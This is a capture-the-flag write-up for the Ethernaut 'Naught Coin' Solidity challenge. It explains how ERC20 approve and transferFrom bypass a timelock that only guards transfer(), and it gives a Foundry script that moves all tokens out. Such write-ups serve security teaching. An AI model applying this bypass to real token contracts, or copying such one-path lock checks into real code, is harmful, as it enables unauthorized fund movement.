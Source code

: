 # Naught coin   
The objective of this challenge is to reduce our token balance to 0. However, there's a modifier that prevents us from transferring tokens until the `timeLock` has passed, and the `timeLock` is set to 10 years!:
```solidity
uint256 public timeLock = block.timestamp + 10 * 365 days;
```
Looking closer at the modifier, we can see that it checks if `msg.sender == player`. If they are equal, the `require` statement that checks if the `timeLock` has passed will be executed. However, if `msg.sender` and `player` are not equal, this require statement won't be executed. This means we can bypass the restriction by using a smart contract. However, as we'll see, it won't be necessary to go down that route.
```solidity
// Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
```
But now, how can we transfer all of our tokens? If we call transfer from a smart contract, we won't be able to transfer anything because the owner of the tokens is our wallet.
To solve this, we need to check the [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase, as suggested in the challenge description. There are other functions we can use to transfer tokens.

The functions we need are:

[`approve(address spender, uint256 value)`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/3bdc3a35c504396c7227cecc32f50ae07da7e5c1/contracts/token/ERC20/ERC20.sol#L127): This function allows the owner to give another address (the spender) the ability to transfer tokens on their behalf.
[`transferFrom(address from, address to, uint256 value)`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/3bdc3a35c504396c7227cecc32f50ae07da7e5c1/contracts/token/ERC20/ERC20.sol#L149): This function allows the approved spender to transfer tokens from the owner's address to another address.

Even if we are the owner and want to use transferFrom, we still need to approve ourselves first. After obtaining approval, we can use transferFrom to move the tokens.

To solve this challenge, I created a small script:
 
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script} from "forge-std/Script.sol";

contract SolvingScript is Script {
    address victim = ; /* Your instance address */

    function run() public {
        vm.startBroadcast();

        // Approving ourselves to spend all tokens
        victim.call(abi.encodeWithSignature("approve(address,uint256)", msg.sender, type(uint256).max));

        // Getting our balance
        (, bytes memory data) = victim.staticcall(abi.encodeWithSignature("balanceOf(address)", msg.sender));
        uint256 balance = abi.decode(data, (uint256));

        // Transferring all tokens to the victim contract
        victim.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", msg.sender, victim, balance));
        vm.stopBroadcast();
    }
}
```